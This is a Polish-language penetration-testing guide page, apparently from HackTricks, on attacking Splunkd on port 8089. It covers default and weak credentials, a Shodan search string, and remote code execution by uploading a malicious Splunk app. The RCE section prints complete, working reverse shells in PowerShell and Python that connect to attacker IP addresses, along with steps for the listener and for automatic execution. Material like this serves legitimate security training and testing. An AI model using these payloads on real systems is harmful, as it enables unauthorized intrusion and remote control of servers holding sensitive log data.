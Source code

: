 # 8089 - Pentesting Splunkd

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **Podstawowe informacje**

* Narzędzie do analizy logów używane do zbierania, analizy i wizualizacji danych
* Powszechnie używane w monitorowaniu bezpieczeństwa i analizie biznesowej
* Domyślne porty:
* Serwer WWW: 8000
* Usługa Splunkd: 8089

### Wektory podatności:

1. Wykorzystanie wersji darmowej

* Wersja próbna automatycznie przekształca się w wersję darmową po 60 dniach
* Wersja darmowa nie ma uwierzytelnienia
* Potencjalne ryzyko bezpieczeństwa, jeśli pozostawiona bez nadzoru
* Administratorzy mogą przeoczyć implikacje bezpieczeństwa

2. Słabości w poświadczeniach

* Starsze wersje: Domyślne poświadczenia `admin:changeme`
* Nowsze wersje: Poświadczenia ustawiane podczas instalacji
* Potencjał do użycia słabych haseł (np. `admin`, `Welcome`, `Password123`)

3. Możliwości zdalnego wykonania kodu

* Wiele metod wykonania kodu:
* Aplikacje Django po stronie serwera
* Punkty końcowe REST
* Skrypty wejściowe
* Skrypty powiadomień
* Wsparcie dla wielu platform (Windows/Linux)
* Skrypty wejściowe mogą uruchamiać:
* Skrypty Bash
* Skrypty PowerShell
* Skrypty wsadowe

Kluczowy potencjał wykorzystania:

* Przechowywanie wrażliwych danych
* Brak uwierzytelnienia w wersji darmowej
* Wiele wektorów potencjalnego zdalnego wykonania kodu
* Możliwość wykorzystania skryptów wejściowych do kompromitacji systemu

### Shodan

* `Splunk build`

## RCE

### Utwórz niestandardową aplikację

Splunk oferuje zaawansowaną metodę zdalnego wykonania kodu poprzez wdrażanie niestandardowych aplikacji, wykorzystując swoje możliwości skryptowe na wielu platformach. Główna technika wykorzystania polega na stworzeniu złośliwej aplikacji, która może wykonywać odwrotne powłoki na systemach Windows i Linux.

Niestandardowa aplikacja może uruchamiać **skrypty Python, Batch, Bash lub PowerShell**. Co więcej, **Splunk ma zainstalowanego Pythona**, więc nawet w systemach **Windows** będziesz mógł uruchamiać kod Pythona.

Możesz użyć [**tego**](https://github.com/0xjpuff/reverse_shell_splunk) przykładu z **`bin`** zawierającym przykład dla [Pythona](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py) i [PowerShell](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/run.ps1). Lub możesz stworzyć własny.

Proces wykorzystania podąża za spójną metodologią na różnych platformach:
```
splunk_shell/
├── bin        (reverse shell scripts)
└── default    (inputs.conf configuration)
```
Plik konfiguracyjny `inputs.conf` włącza skrypt poprzez:

* Ustawienie `disabled = 0`
* Skonfigurowanie 10-sekundowego interwału wykonania
* Zdefiniowanie typu źródłowego skryptu

Wdrożenie jest proste:

1. Utwórz złośliwy pakiet aplikacji
2. Skonfiguruj nasłuchiwacz (Netcat/socat) na maszynie atakującej
3. Prześlij aplikację przez interfejs Splunk
4. Wyzwól automatyczne wykonanie skryptu po przesłaniu

Przykładowy odwrócony shell PowerShell w systemie Windows:
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()
};
$client.Close()
```
Przykładowy odwrócony shell Python w systemie Linux:
```python
import sys, socket, os, pty
ip = "10.10.14.15"
port = "443"
s = socket.socket()
s.connect((ip, int(port)))
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]
pty.spawn('/bin/bash')
```
### RCE & Eskalacja Uprawnień

Na następnej stronie znajdziesz wyjaśnienie, jak ta usługa może być nadużywana do eskalacji uprawnień i uzyskania trwałości:

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## Odniesienia

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
